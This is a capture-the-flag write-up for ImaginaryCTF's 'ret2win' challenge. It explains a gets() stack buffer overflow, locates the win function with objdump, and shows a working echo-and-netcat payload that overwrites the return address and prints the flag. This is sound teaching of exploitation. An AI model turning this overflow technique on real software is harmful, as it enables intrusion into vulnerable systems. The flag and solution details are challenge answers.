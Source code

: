 ```yaml
---
layout: post
title: "ret2win CTF Writeup"
---
```


# The Problem

One of the most common exploit problems presented in CTFs are "ret2win" problems.
Naturally ImaginaryCTF has a 100 point ret2win to get noobies their toes wet and
experienced players a chance to warm. The challenge, titled "ret2win", gives the
description:

> Jumping around memory is hard. I'll give you some help so that you can pwn this!

This is accompanied by 2 attachments and a netcat command to talk to the server the challenge
is running on.

[vuln](https://imaginaryctf.org/r/W94dw#vuln)
[vuln.c](https://imaginaryctf.org/r/IDlsV#vuln.c)
`nc ret2win.chal.imaginaryctf.org 1337`

# The Source, a binary, and the Server Soon To Be Pwned

Running the binary presents the user with a prompt:

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
```

As far as ret2win's go, this one is certainly handing the answer on a silver platter.
Once the user has given the program its input, another line is presented.

```
Returning to 0x7f97cc429290...
```

This address being returned will become very useful in a bit. However, lets move on the source code.

```c
#include <stdio.h>
#include <stdlib.h>

int win() {
  FILE *fp;
  char flag[255];
  fp = fopen("flag.txt", "r");
  fgets(flag, 255, fp);
  puts(flag);
}

char **return_address;

int main() {
  char buf[16];
  return_address = buf+24;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  puts("Welcome to ret2win!");
  puts("Right now I'm going to read in input.");
  puts("Can you overwrite the return address?");

  gets(buf);

  printf("Returning to %p...\n", *return_address);
}
```

The first thing that will catch your eye is the `int win()` function. Reading it carefully you will
see that this function opens the flag file and spits it out to the user. Great! This is what we need.
Looking at the `main()` function we see that a 16 byte buffer is allocated to the stack, the `return_address`
global variable is set to 24 bytes offset from the buffer (seemingly out of bounds). Then, the start message
we saw is displayed, a string is read into `buf`, and the address `return_address` points to is displayed.

However, there is something wrong here. The `win` function is never called. So this challenge must not be
possible right? Well, it is, but we need a bit of knowledge of how x86 uses the stack and a buffer overflow.

# The Stack Demystified

Operating systems like Linux use the stack in a predictable way. When entering a function, they save a
pointer to where they left off on the stack. This pointer is what is popped off when `return` is called
and the program must got back to whence it came. After entering a function, a pointer to the base of the
last stack frame (`ebp`) is usually saved (unless the stack isn't used in that function), and any stack allocated
variables are pushed to the end.

For instance, our main functions stack would look like below (first row is highest addresses):

||||
| --- | --- |
| 0xFFFFFFFF | ... |
| 0xFFFFFFF8 | `return_address` |
| 0xFFFFFFF0 | `ebp` |
| 0xFFFFFFE0 | `buf` |

So, since our goal is to run `win` to get our flag value, maybe instead of having main return to `return_address` we
could somehow have it return to a different address; Say the start of `win`. For this we will need one more thing: a
buffer overflow.

# Buffer Overflow

You may notice that the call to `gets` doesn't have a length parameter. That is because it is not bounds checked.
It simply continues taking in characters and writing to its buffer until input ends. Well since `buf` is right
below `ebp` and `return_address` in the stack, this means that itcould potentially overwrite those values if
we input more than 16 characters. Let's test this theory. For our input let's enter "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa".

```
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Returning to 0x6161616161616161...
[1]    637 segmentation fault (core dumped)  ./vuln
```

We crashed! You'll see the address we tried to while invalid is exactly what we wanted: a bunch of 'a's or 0x61 in hex
in the return address. Now we just have to carefully craft our input overwrite the `return_address` with `win`s starting address.

To get `win`s starting address we can use a linux utility called `objdump`. This program will take in a binary and
spit out its assembly code along with any symbols it can find. Running `objdump -D ./vuln` will display a lot of assembly code including...

```asm
00000000004011d6 <win>:
  4011d6:       f3 0f 1e fa             endbr64
  4011da:       55                      push   %rbp
  4011db:       48 89 e5                mov    %rsp,%rbp
  4011de:       48 81 ec 10 01 00 00    sub    $0x110,%rsp
  4011e5:       48 8d 35 1c 0e 00 00    lea    0xe1c(%rip),%rsi        # 402008 <_IO_stdin_used+0x8>
  4011ec:       48 8d 3d 17 0e 00 00    lea    0xe17(%rip),%rdi        # 40200a <_IO_stdin_used+0xa>
  4011f3:       e8 e8 fe ff ff          call   4010e0 <fopen@plt>
  4011f8:       48 89 45 f8             mov    %rax,-0x8(%rbp)
  4011fc:       48 8b 55 f8             mov    -0x8(%rbp),%rdx
  401200:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  401207:       be ff 00 00 00          mov    $0xff,%esi
  40120c:       48 89 c7                mov    %rax,%rdi
  40120f:       e8 9c fe ff ff          call   4010b0 <fgets@plt>
  401214:       48 8d 85 f0 fe ff ff    lea    -0x110(%rbp),%rax
  40121b:       48 89 c7                mov    %rax,%rdi
  40121e:       e8 6d fe ff ff          call   401090 <puts@plt>
  401223:       90                      nop
  401224:       c9                      leave
  401225:       c3                      ret
```

We have it! The address we need to jump to is `0x4011d6`. Now we can move on to our attack.

# The Exploit

To craft our payload, I'll just be using `echo`, but other
methods can also work to send non-character data. First, we will send 16 'a's to just fill up the buffer. Then, another
8 bytes of any non-zero values. Lastly, we send `0x4011d6` in little endian as a 64 bit number. When, going over netcat
it will be necessary that we also send a newline since the input buffer is still open.

```sh
❯ echo -n -e '\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xbb\xd6\x11\x40\x00\x00\x00\x00\x00\n' | nc ret2win.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
Welcome to ret2win!
Right now I'm going to read in input.
Can you overwrite the return address?
Returning to 0x4011d6...
ictf{c0ngrats_on_pwn_number_1_9b1e2f30}
```

> ictf{c0ngrats_on_pwn_number_1_9b1e2f30}

We got our flag and 100 points! If you've made it this far, I hope you learned a thing or two about how stacks and
buffer overflows work. Now get out there and pwn some more CTF's.

Happy Hacking.

